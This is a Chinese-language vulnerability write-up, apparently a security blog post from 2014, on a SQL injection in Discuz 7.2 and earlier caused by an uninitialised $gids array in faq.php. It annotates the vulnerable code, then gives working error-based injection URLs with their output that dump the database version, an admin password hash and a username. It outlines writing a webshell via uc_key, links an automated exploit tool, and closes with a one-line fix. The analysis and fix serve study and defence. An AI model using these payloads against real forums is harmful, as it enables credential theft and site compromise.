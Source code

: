 Title: Discuz7.2及以下版本通杀漏洞分析
Date: 2014-07-03 06:08
Tags: Discuz


2014年7月2日真是个好日子，Discuz7.2及以下版本爆出一个惊天大漏洞，黑客可以直接脱库，甚至可以直接可以写入webshell


#### **1、漏洞代码分析**

请看下面注释分析，其实问题很简单，没有初始化变量，导致用户可以覆盖变量，引起注入。但凡做过开发的同学应该都知道，这个其实是一个很容易犯错的地方。在开发c、c++的时候有pclint工具可以检查，只要使用前没有初始化就报警，这类问题得到了很好的抑制。但脚本语言似乎并没有很好的工具，光靠人的编程技能，还是很难控制以后不会犯同样的错误。Discuz范的这个错误肯定不是偶然的，类似问题其它的网站或轻或重的应该也会存在的。

<code>

} elseif($action == 'grouppermission') {

	require_once './include/forum.func.php';
	require_once language('misc');
	$permlang = $language;
	unset($language);

	$searchgroupid = isset($searchgroupid) ? intval($searchgroupid) : $groupid;
    /* 此处没有对数组变量gids初始化 */
	$groups = $grouplist = array();
	$query = $db->query("SELECT groupid, type, grouptitle, radminid FROM {$tablepre}usergroups ORDER BY (creditshigher<>'0' || creditslower<>'0'), creditslower");
	$cgdata = $nextgid = '';
	while($group = $db->fetch_array($query)) {
		$group['type'] = $group['type'] == 'special' && $group['radminid'] ? 'specialadmin' : $group['type'];
		$groups[$group['type']][] = array($group['groupid'], $group['grouptitle']);
		$grouplist[$group['type']] .= '<option value="'.$group['groupid'].'"'.($searchgroupid == $group['groupid'] ? ' selected="selected"' : '').'>'.$group['grouptitle'].($groupid == $group['groupid'] ? ' &larr;' : '').'</option>';
		if($group['groupid'] == $searchgroupid) {
			$cgdata = array($group['type'], count($groups[$group['type']]) - 1, $group['groupid']);
		}
    }

    /* 根据不同的情况对gids前4位变量进行赋值 */
	if($cgdata[0] == 'member') {
		$nextgid = $groups[$cgdata[0]][$cgdata[1] + 1][0];
		if($cgdata[1] > 0) {
			$gids[1] = $groups[$cgdata[0]][$cgdata[1] - 1];
		}
		$gids[2] = $groups[$cgdata[0]][$cgdata[1]];
		if($cgdata[1] < count($groups[$cgdata[0]]) - 1) {
			$gids[3] = $groups[$cgdata[0]][$cgdata[1] + 1];
			if(count($gids) == 2) {
				$gids[4] = $groups[$cgdata[0]][$cgdata[1] + 2];
			}
		} elseif(count($gids) == 2) {
			$gids[0] = $groups[$cgdata[0]][$cgdata[1] - 2];
		}
	} else {
		$gids[1] = $groups[$cgdata[0]][$cgdata[1]];
	}
	ksort($gids);
    $groupids = array();

    /* 将gids内容拷贝到数组变量groupids中 */
	foreach($gids as $row) {
		$groupids[] = $row[0];
	}

    /* 利用groupids中的内容查询数据，由于gids变量没有初始化，用户可以构造一个请求对gids变量进行覆盖，导致groupids可控，只要闭合下面的IN()，即可注入 */
	$query = $db->query("SELECT * FROM {$tablepre}usergroups u LEFT JOIN {$tablepre}admingroups a ON u.groupid=a.admingid WHERE u.groupid IN (".implodeids($groupids).")");
	$groups = array();
	while($group = $db->fetch_array($query)) {
		$group['maxattachsize'] = $group['maxattachsize'] / 1024;

</code>


#### **2、利用方法**

1、url中传入gids变量，需要闭合in，并利用mysql的floor报错注入法即可实现，如下输入，可以爆出数据库版本

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat(version(),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:01am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php

    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '5.1.28-rc-community1' for key 'group_key'
    Errno.: 1062
    

2、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的密码

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select password from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:06am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
        
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select password from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '0644bf56b4ed45878f306b5f19dc1e0e1' for key 'group_key'
    Errno.: 1062
    

3、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的用户名

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select username from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:07am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
    
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select username from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry 'admin1' for key 'group_key'
    Errno.: 1062


4、写入shell转思路

通过读取uc_key，可以将一句话写入配置文件 `config.inc.php`


5、利用上面的思路自己写了一个小软件，可以实现全自动利用

[工具源码下载链接](static/code/diz7.2.py)

运行效果截图

![Alt text](/static/images/diz7.2.GIF)


#### **3、修复方法**

将如下代码

    $groups = $grouplist = array();

修改为

    $groups = $grouplist = $gids = array();

